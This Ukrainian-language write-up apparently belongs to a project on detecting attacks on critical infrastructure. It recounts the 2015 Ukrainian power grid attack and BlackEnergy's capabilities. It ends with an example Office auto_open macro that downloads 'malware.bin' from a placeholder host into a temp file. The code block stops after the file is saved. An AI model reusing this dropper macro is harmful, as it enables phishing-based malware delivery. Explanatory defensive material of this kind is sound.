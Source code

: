 # Розробка та оцінка ефективності системи виявлення та захисту від атак на системи критично важливої інфраструктури



## Злом української електромережі 2015 року
Кібератака на українську електромережу у 2015 році стала яскравим прикладом успішного застосування кібервійни. Ця атака призвела до масштабного відключення електроенергії в Україні, від якого постраждали сотні тисяч людей. Вважається, що атака була здійснена російською групою кібершпигунства, відомою як "Піщаний черв'як", і вважається першою успішною кібератакою на електромережу.

## Шкідливе програмне забезпечення BlackEnergy
Шкідливе програмне забезпечення BlackEnergy, використане в атаці, є складним шкідливим програмним забезпеченням, яке існує щонайменше з 2007 року. З часом він еволюціонував і використовувався в різних атаках, включаючи цілеспрямовані атаки на уряди, енергетичні компанії та об'єкти критичної інфраструктури.

Шкідливе програмне забезпечення зазвичай надсилається через електронні листи з фішинговими атаками, які містять шкідливі вкладення або посилання. Після інсталяції на цільову систему він може виконувати різні функції, зокрема:


- Викрадення облікових даних та іншої конфіденційної інформації
- Створення бекдору для віддаленого доступу та керування
- Завантаження та запуск додаткового шкідливого програмного забезпечення
- Порушення або відключення мережевого підключення та систем зв'язку
- Знищення даних або інших критично важливих активів

Шкідливе програмне забезпечення BlackEnergy є високомодульним і може бути налаштоване відповідно до конкретних потреб і цілей зловмисника. Його можна використовувати як окремий інструмент або в поєднанні з іншими шкідливими програмами та методами атаки.

## Як відбулася атака
У випадку з атакою на енергосистему України у 2015 році зловмисники використовували фішингові електронні листи для розповсюдження шкідливого документа Microsoft Word, який використовував вразливість "нульового дня" в Microsoft Office. Документ Word містив макрос, який відповідав за фактичне виконання шкідливого програмного забезпечення.

Ось приклад того, як міг би виглядати макрокод:
```vbnet
Sub auto_open()
    Dim strBuf As String
    Dim intPos As Integer
    Dim strFile As String
    
    strBuf = "www.abc.com/malware.bin"
    
    strFile = Environ$("Temp") & "\XKG47h2x.tmp"
    
    Set oHttp = CreateObject("MSXML2.XMLHTTP")
    
    oHttp.Open "GET", strBuf, False
    oHttp.Send
    
    If oHttp.Status = 200 Then
        Set oStream = CreateObject("ADODB.Stream")
        oStream.Open
        oStream.Type = 1
        oStream.Write oHttp.responseBody
        oStream.SaveToFile strFile, 2
        oStream.Close
        Set oStream = Nothing
    End If
```